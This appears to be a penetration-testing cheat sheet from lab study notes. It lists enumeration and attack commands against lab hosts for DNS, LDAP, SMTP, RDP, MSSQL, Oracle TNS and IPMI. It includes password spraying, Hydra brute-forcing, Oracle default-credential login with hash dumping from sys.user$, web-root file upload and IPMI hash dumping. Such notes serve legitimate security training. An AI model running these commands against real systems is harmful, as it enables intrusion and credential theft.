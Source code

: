 ```bash
echo "ns1.inlanefreight.com" >> ./resolvers.txt
./subbrute.py inlanefreight.com -s ./names.txt -r ./resolvers.txt
./subfinder -d inlanefreight.com -v
host support.inlanefreight.com
```
### Ldap enumeration
```bash
nmap -n -sV --script "ldap* and not brute" -p 389 <ip>
ldapsearch -H ldap://<ip> -x -s base namingcontext
ldapsearch -H ldap://<ip> -x -b"DC=htb,DC=local"
```
### SMTP enumeration
```bash
telnet 10.129.14.128 25
sudo nmap 10.129.14.128 -p25 --script smtp-open-relay -v
python3 smtp_vrfy_brute.py 10.129.191.82 ~/Documents/seclists/footprinting-wordlist.txt
smtp-user-enum -V -m RCPT -U ~/Documents/seclists/footprinting-wordlist.txt 10.129.42.195 25
use auxiliary/scanner/smtp/smtp_enum
python3 o365spray.py --enum -U users.txt --domain msplaintext.xyz
python3 o365spray.py --spray -U usersfound.txt -p 'March2022!' --count 1 --lockout 1 --domain msplaintext.xyz
smtp-user-enum -M RCPT -U users.list -D inlanefreight.htb -t 10.129.122.129
```
### RDP enumeration
```bash
nmap -sV -sC 10.129.201.248 -p3389 --script rdp*
nmap -sV -sC 10.129.201.248 -p3389 --packet-trace --disable-arp-ping -n
./rdp-sec-check.pl 10.129.201.248
hydra -L usernames.txt -p 'password123' 192.168.2.143 rdp
hydra -L user.list -P password.list rdp://10.129.42.197
```
### MSSQL
```bash
mssqlclient.py -p 1433 backdoor@10.129.201.248 -windows-auth
select name from sys.databases
use scanner/mssql/mssql_ping
```
### ORACLE TNS
```bash
oscanner -s <IP> -P <PORT>
sudo nmap -p1521 -sV 10.129.204.235 --open --script oracle-sid-brute
./odat.py all -s 10.129.204.235
sqlplus scott/tiger@10.129.204.235/XE
sqlplus scott/tiger@10.129.204.235/XE as sysdba
select table_name from all_tables;
select * from user_role_privs;
select name, password from sys.user$;
```
#### File upload
```bash
./odat.py utlfile -s 10.129.204.235 -d XE -U scott -P tiger --sysdba --putFile C:\\inetpub\\wwwroot testing.txt ./testing.txt
curl -X GET http://10.129.204.235/testing.txt
```
### IPMI enumeration
```bash
sudo nmap -sU --script ipmi-version -p 623 ilo.inlanfreight.local
use auxiliary/scanner/ipmi/ipmi_version
use auxiliary/scanner/ipmi/ipmi_dumphashes
```